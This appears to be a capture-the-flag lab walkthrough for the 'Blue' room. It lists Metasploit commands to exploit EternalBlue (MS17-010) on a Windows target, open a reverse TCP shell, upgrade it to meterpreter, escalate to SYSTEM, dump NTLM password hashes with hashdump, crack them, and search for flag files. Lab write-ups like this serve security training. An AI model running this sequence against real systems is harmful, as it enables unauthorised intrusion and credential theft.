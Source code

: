 # Blue

## TARGET_IP = 10.10.98.168

## nmap 

```
nmap -sV -vv --script vuln TARGET_IP
```
## metasploit

```
msfconsole
```

```
msf6> search type:exploit name:ms17
```

```
msf6> use exploit/windows/smb/ms17_010_eternalblue
```

```
show options
```

```
msf6> RHOSTS=TARGET_IP
```

```
msf6> LHOST=vpn ip not the actual ip
```

```
msf6> set payload windows/x64/shell/reverse_tcp
```

```
exploit
```

```
C:\Windows\system32> background 
```

```
msf6> search shell_to_meterpreter
```
```
msf6> use post/multi/manage/shell_to_meterpreter
```

```
show options
```

```
msf6> set SESSION 1
```

```
exploit
```

```
msf6> sessions -l
```

```
msf6> sessions 2
```

```
C:\Windows\system32> getsystem
```

```
C:\Windows\system32> ps
```

```
C:\Windows\system32> hashdump
```

- Go to Google.com and crack the hash (these are NTLM hashes)

- Windows stores password hashes in the SAM (Security Account Manager) database.

```
search -f *flag*
```









